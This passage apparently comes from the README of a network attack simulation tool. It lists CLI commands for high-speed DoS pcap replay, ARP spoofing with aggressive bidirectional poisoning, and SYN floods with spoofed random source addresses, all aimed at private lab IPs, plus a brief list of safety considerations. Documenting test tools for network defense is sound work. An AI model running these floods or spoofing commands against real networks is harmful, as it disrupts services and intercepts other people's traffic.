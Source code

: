 2. DoS Attack Simulation
   ```bash
   # Replay attack traffic at high speed
   python src/cli.py pcap-replay \
       --file dos_attack.pcap \
       --interface eth0 \
       --speed 10.0 \
       --loop 5 \
       --stats \
       --output dos_simulation.json
   ```

**Safety Considerations:**
- Verify target environment capacity
- Monitor network bandwidth usage
- Be cautious with replay speed settings
- Consider impact on production systems
- Test filters before full replay
- Monitor system resources
- Keep replay logs for analysis

## PCAP Replay Attacks
```bash
# Basic ARP spoofing
python src/cli.py arp-spoof \
    --target 192.168.1.100 \
    --gateway 192.168.1.1 \
    --interface eth0

# Advanced ARP spoofing with full control
python src/cli.py arp-spoof \
    --target 192.168.1.100 \
    --target-mac 00:11:22:33:44:55 \
    --gateway 192.168.1.1 \
    --interface eth0 \
    --bidirectional \
    --aggressive \
    --restore-on-exit \
    --packet-log /path/to/log.pcap \
    --verify
```

#### SYN Flood Examples
```bash
# Basic SYN flood
python src/cli.py syn-flood \
    --target 192.168.1.100 \
    --port 80 \
    --threads 4

# Advanced SYN flood
python src/cli.py syn-flood \
    --target 192.168.1.100 \
    --port-range 80-85 \
    --interface eth0 \
    --source-ip random \
    --randomize-source \
    --payload-size 100 \
    --window-size 16384 \
    --flags "SA" \
    --packet-log /path/to/log.pcap
```
